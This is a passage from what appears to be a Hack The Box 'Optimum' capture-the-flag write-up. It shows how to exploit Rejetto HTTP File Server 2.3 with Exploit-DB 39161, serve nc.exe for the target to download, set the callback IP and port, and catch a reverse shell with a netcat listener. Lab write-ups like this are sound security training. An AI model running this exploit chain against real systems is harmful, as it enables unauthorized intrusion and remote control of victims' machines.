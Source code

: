 It looks like the machine is running something called as "HTTP File Server 2.3" which can be helpful to gain access to the machine. 

## Gaining Foothold

We can try to looks for exploits associated with this service. From a quick google search the first result that comes up is a [Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)](https://www.exploit-db.com/exploits/39161). We can use the same by copying it to our current work directory via `searchsploit`.

```
┌──(kali㉿kali)-[~/Desktop/htb/optimum]
└─$ searchsploit -m 39161
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
File Type: Python script, ASCII text executable, with very long lines (540)

Copied to: /home/kali/Desktop/htb/optimum/39161.py
```

After going through the exploit code, it looks like we need to set up a few things before running this script:

1. We need to find `nc.exe`, copy it in our current directory and then start a web server over there so that the `nc.exe` file can be pulled by the target machine from there (make sure to start the server on port 80). Tjis can be done running the following commands

   ```
   ┌──(kali㉿kali)-[~/Desktop/htb/optimum]
   └─$ locate nc.exe
   /usr/share/seclists/Web-Shells/FuzzDB/nc.exe
   /usr/share/windows-resources/binaries/nc.exe
                                                                                                       ┌──(kali㉿kali)-[~/Desktop/htb/optimum]
   └─$ cp /usr/share/windows-resources/binaries/nc.exe .
                                                                                                       ┌──(kali㉿kali)-[~/Desktop/htb/optimum]
   └─$ python3 -m http.server 80
   Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
   ```

2. Change the local IP and port number in the script.

   ```
   35		ip_addr = "10.10.16.4" #local IP address
   36		local_port = "1337" # Local Port number
   ```

3. Start a listener on the same port number using the command `nc -nlvp 1337`.

4. Use the target's IP address and port number to run the script.

   ```
   ┌──(kali㉿kali)-[~/Desktop/htb/optimum]
   └─$ nc -nlvp 1337
   listening on [any] 1337 ...
   connect to [10.10.16.4] from (UNKNOWN) [10.10.10.8] 49250
   Microsoft Windows [Version 6.3.9600]
   (c) 2013 Microsoft Corporation. All rights reserved.
   
   C:\Users\kostas\Desktop>whoami
   whoami
   optimum\kostas
   ```
